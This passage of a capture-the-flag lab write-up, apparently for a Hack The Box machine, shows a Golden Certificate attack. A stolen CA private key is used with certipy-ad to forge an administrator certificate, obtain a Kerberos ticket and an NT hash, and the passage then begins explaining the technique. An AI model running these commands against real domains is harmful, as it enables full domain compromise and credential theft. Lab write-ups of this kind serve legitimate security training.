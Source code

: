 ```powershell
Info: Downloading C:\Users\Public\Temp\ca.pfx to ca.pfx
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\Public\Temp> 
```
{: .nolineno }

I downloaded the CA certificate private key into the Attacker machine now its time to forge this certificate as Administrator user and authenticate it using <mark style="background: #FFB86CA6;">certipy-ad</mark> tool.

```bash
└─$ certipy-ad forge -ca-pfx ca.pfx -upn 'administrator@certificate.htb' -out forged_administrator.pfx
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'forged_administrator.pfx'
[*] Wrote forged certificate and private key to 'forged_administrator.pfx'
```
{: .nolineno }

Authenticate as Administrator user now 🔻

```bash
└─$ faketime "$(sudo ntpdate -q 10.10.11.76 | cut -d ' ' -f 1,2)" certipy-ad auth -dc-ip '10.10.11.71' -pfx 'forged_administrator.pfx' -username 'administrator' 
[sudo] password for kali: 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143........24408c6
```
{: .nolineno }

I got the Administrator user hash and this process is called <mark style="background: #FF5582A6;">Golden Certificate Attack</mark>.
### What is a Golden Certificate Attack?
A Golden Certificate attack is when you steal the **private key of a Certificate Authority (CA)** and use it to forge certificates for any user in the domain - especially privileged users like administrators.

#### Why my Process is a Golden Certificate Attack:

1. **I can Stole the CA's Private Key**:
   - I exported the CA certificate (`Certificate-LTD-CA`) with its private key to `ca.pfx`
   - This is like stealing the master key that can create any trusted certificate in the domain
